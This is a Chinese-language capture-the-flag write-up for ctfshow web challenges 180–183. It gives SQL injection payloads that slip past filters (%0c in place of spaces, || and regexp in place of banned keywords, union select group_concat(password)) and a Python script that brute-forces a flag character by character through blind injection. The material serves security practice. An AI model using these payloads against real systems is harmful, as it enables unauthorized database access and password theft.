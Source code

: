 ## web 180

过滤了注释符#，--，使用单引号闭合。同时使用group_concat函数将结果合并


```sql
-1'union%0cselect%0c1,2,group_concat(password)%0cfrom%0cctfshow_user%0cwhere%0c'1'='1
```

## web 181

参考了大佬的文章，在mysql中，sql语句可以用符号表示逻辑运算符，||与or等效

传入

```sql
1'||username='flag
```

## web 182

过滤了flag,sql正则匹配flag，圆括号包裹字段名

```sql
0'||(username)regexp'f
```

最后换为f,l,a,g都可以匹配到

## web 183

这题通过聚合函数count()，对查询的结果统计，来判断查询是否成功实现盲注。过滤了等号=，还有regexp正则和like模糊匹配

```python
#author:yu22x
import requests
import string
url="http://0be2b54b-f4b2-4843-a369-5878015eeca6.challenge.ctf.show/select-waf.php"
s=string.digits+string.ascii_lowercase+"{_-}"
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    data={
    'tableName':f'(ctfshow_user)where(pass)regexp("^ctfshow{flag+j}")'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      break
```
